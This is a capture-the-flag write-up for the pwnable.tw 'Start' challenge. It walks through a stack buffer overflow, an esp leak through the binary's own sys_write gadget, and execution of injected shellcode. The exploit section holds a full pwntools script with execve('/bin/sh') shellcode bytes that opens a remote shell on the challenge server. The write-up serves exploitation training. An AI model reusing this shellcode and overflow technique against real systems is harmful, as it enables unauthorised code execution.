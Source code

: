 # Pwnable.tw - Start
:::success
Website : Pwnable.tw
Challenge : Start
Writeup author : Redhung aka r3dhun9
>Contact :[Philip Chen (Facebook)](https://www.facebook.com/philip.chen.581)
:::

## 0x01
Let's use **objdump** or **r2** to disassemble the binary first :
```asm
push esp ;
push 0x804809d ;
xor eax, eax ;
xor ebx, ebx ;
xor ecx, ecx ;
xor edx, edx ;
push 0x3a465443 ; 'CTF:'
push 0x20656874 ; 'the '
push 0x20747261 ; 'art '
push 0x74732073 ; 's st'
push 0x2774654c ; 'Let''
mov ecx, esp ;
mov dl, 0x14 ; 20
mov bl 1 ; stdout
mov al 4 ; sys_write
int 0x80 ; syscall
xor ebx, ebx ;
mov dl, 0x3c ; 60
mov al, 3 ; sys_read
int 0x80 ; syscall
add esp, 0x14 ;
ret ;
```
We notice that there is a buffer overflow in this program. (Sys_read reads 60 bytes while the return address may be overwritten.)

On this point, we have a clear thought of this challenge. :100: 

We can overwrite the return address to anywhere we want! :+1: 

Let's send the shellcode and overwrite the return address to our shellcode, sweet.

## 0x02
As we thought, we use **gdb** and attach to the process, however, we cannot find the address of our shellcode due to **ASLR**.

Look back to the assembly, the entry point of the stack is stroed at the begining!

```asm
push esp ;
```
That means we can **leak** the entry point and calculate the offset to our shellcode!
Wait wait wait bro, how can we leak the address?
Let's look back to the assembly:
```asm
mov ecx, esp ;
mov dl, 0x14 ;
mov bl, 1 ;
mov al, 4 ; sys_write
```
Once we return to **mov** **ecx,** **esp;** , we will call the sys_write to leak the esp. :revolving_hearts: 

After we get the esp, we just need to calculate the offset to out shellcode and get shell! :ghost: 

## 0x03
Exploit:
```python
from pwn import *

shellcode = '\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'

payload = 'A'*20 + p32(0x8048087)

r = remote('chall.pwnable.tw',10000)

rec = r.recv()

r.send(payload)

esp = u32(r.recv(4))

print(hex(esp))

payload2 = 'B'*20 + p32(esp+0x14) + shellcode

r.send(payload2)

r.interactive()
```
